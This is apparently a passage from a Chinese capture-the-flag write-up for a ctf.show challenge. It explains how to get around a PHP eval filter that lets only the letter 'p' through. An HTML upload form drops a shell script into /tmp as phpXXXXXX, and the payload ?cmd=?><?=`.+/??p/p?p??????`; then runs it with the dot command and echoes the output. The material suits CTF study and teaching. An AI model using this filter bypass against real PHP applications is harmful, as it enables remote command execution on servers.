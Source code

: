 本来是无字母数字webshell，但这里过滤了这么多，唯独没有过滤字母 `p`，我们可以使用另一种方法

> 在linux中，`source`命令（`.`命令），可以用来执行shell脚本

![image-20230411140844529](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111408579.png)

我们又需要知道，

在php中临时文件目录一般在 `/tmp/`，并且php文件上传后命名格式为：`phpXXXXXX`

因此，我们可以利用这些特点，上传shell脚本，然后使用`点命令`执行脚本，其他字母使用`通配符?`代替



但是我们又知道，在php中 `eval()`函数是没有回显的，怎么才能回显呢？

我们需要使用php短标签 `<?=`

![image-20230411141425072](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111414117.png)

`<?=`相当于echo函数进行输出

例如 `<?=1;?>`将会输出1



综上，我们可以先使用 `?>`闭合前面的 `<?` 然后再使用`<?=`构造回显输出



编写上传html：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <form action="http://838ca3e8-ca28-409d-a101-712f9d3435b3.challenge.ctf.show/" enctype="multipart/form-data" method="post">
        <input type="file" name="1.txt" >
        <input type="submit" name="smt">
    </form>
</body>
</html>
```



```
?cmd=?><?=`.+/??p/p?p??????`;
```

![image-20230411142039248](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111420301.png)



